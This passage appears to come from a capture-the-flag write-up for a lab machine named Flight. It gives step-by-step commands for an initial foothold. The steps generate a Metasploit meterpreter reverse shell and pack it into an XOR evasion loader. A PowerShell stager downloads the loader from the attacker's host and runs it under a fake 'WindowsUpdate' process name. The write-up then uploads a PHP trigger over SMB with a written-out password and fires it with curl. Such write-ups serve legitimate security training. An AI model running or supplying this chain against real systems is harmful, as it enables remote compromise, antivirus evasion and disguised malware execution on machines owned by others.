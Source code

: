 This PHP file should execute a powershell script that we will host on port 80 at `/`{:.filepath}. We'll populate this file with a script that will download and execute another file that will be our meterpreter, hosted at `/home.html`{:.filepath}. To evasively load the meterpreter we'll use [this custom script](https://github.com/bryanmcnulty/ctf-scripts/blob/main/windows/evasion/scxor.py).

First we'll setup our meterpreter and generate our shellcode.

```bash
# bryan@attacker
lport="443"
password=$(openssl rand -base64 12)
cmd="use windows/x64/meterpreter/reverse_tcp_rc4"
cmd="$cmd;set lhost $lhost;set lport $lport;set rc4password $password"
cmd="$cmd;generate -f raw -o mtp.bin;to_handler"
msfconsole -x "$cmd"
```
{:.nolineno}

Then we'll compile the shellcode into the evasive loader, making sure to save the key from the output.

```bash
# bryan@attacker
python3 scxor.py -f mtp.bin | tee logs/obf.log # !! SAVE THIS KEY !!
mkdir serve && mv simple.exe serve/home.html
```
{:.nolineno}
```powershell
$lhost="10.10.14.9" # Listener host
$c="[CHANGE ME]" # The key from scxor.py
$n="WindowsUpdate_$env:UserName" # Process name

iwr -useb "$lhost/home.html" -o "$env:Temp\$n.exe";
kill -Name $n -EA silent
Start-Process $f -arg $c
```
{:file="serve/index.html"}

Finally, we'll serve the payloads over HTTP port 80, upload the PHP file to the school site's web root in the _Web_ share, and visit the PHP file to trigger execution.

```bash
# bryan@attacker
cd serve && python3 -m http.server --bind $lhost 80
```
{:.nolineno}
```bash
# bryan@attacker
from="j7An4l.php"
to="school.flight.htb/images"
(echo 'Tikkycoll_431012284' | smbclient -U C.Bum //$rhost/Web -c "cd $to;put $from") |
  tee -a logs/smb/S.Moon-smbclient.log &&
  curl "http://school.flight.htb/images/$from"
```
{:.nolineno}
